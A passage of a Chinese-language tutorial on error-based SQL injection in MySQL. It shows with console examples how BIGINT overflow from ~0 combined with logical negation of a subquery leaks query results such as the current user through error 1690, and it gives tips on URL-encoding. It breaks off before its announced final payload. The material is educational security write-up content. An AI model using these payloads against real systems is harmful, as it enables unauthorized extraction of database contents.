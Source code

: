 ```
mysql> select ~0;
+----------------------+
| ~0 |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

```

所以，如果我们对~0进行加减运算的话，也会导致BIGINT溢出错误。

```
mysql> select 1-~0;
ERROR 1690 (22003): BIGINT value is out of range in '(1 - ~(0))'
mysql> select 1+~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'

```

0x002 注入技术
=====

我的想法是，利用子查询引起BITINT溢出，从而设法提取数据。我们知道，如果一个查询成功返回，其返回值为0，所以对其进行逻辑非的话就会变成1，举例来说，如果我们对类似(`select*from(select user())x`)这样的查询进行逻辑非的话，就会有：

```
mysql> select (select*from(select user())x);
+-------------------------------+
| (select*from(select user())x) |
+-------------------------------+
| root@localhost |
+-------------------------------+
1 row in set (0.00 sec)
# Applying logical negation
mysql> select !(select*from(select user())x);
+--------------------------------+
| !(select*from(select user())x) |
+--------------------------------+
| 1 |
+--------------------------------+
1 row in set (0.00 sec)

```

是的，太完美了！ 所以说，只要我们能够组合好逐位取反和逻辑取反运算，我们就能利用溢出错误来成功的注入查询。

```
mysql> select ~0+!(select*from(select user())x);
ERROR 1690 (22003): BIGINT value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'

```

我们先不使用加法，因为“+”通过网页浏览器进行解析的时候，会被转换为空白符（不过，你可以使用%2b来表示“+”）。 相反，我们可以使用减法。所以说，同一种注入攻击，可以有完全不同的变种。 最终的查询语句如下所示。
